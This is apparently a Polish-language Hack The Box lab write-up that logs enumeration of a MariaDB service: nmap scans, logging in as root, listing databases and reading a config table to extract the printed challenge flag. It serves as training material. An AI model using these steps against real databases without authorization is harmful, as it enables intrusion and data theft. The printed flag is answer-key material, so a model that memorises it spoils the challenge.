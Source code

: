 # MySQL / MariaDB Enumeration – Pełny log

## 1. Wykrycie usługi MySQL
```bash
nmap -sC -sV -p- -T4 10.129.95.232
```


Fragment wyniku:

```bash
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 42
|   Auth Plugin Name: mysql_native_password
```
## 2. Skanowanie portu 3306 skryptami MySQL

```bash
nmap -p 3306 --script mysql* 10.129.95.232
```

Wynik: brak znalezionych kont (No valid accounts found).
## 3. Połączenie z MySQL

```bash
mysql -h 10.129.95.232 -u root -p
```

(lub inne znane konto i hasło)
## 4. Przegląd bazy

```sql
SHOW DATABASES;
USE htb;
SHOW TABLES;
```

## 5. Odczyt tabeli config

```sql
SELECT * FROM config;
```

```bash
Wynik:
id	name	value
1	timeout	60s
2	security	default
3	auto_logon	false
4	max_size	2M
5	flag	7b4bec00d1a39e3dd4e021ec3d915da8
6	enable_uploads	false
7	authentication_method	radius
6. Wyciągnięcie tylko flagi
```

```sql
SELECT value FROM config WHERE name = 'flag';
```

Wynik:

```bash
7b4bec00d1a39e3dd4e021ec3d915da8
```

## 7. Flaga końcowa

```
7b4bec00d1a39e3dd4e021ec3d915da8
```
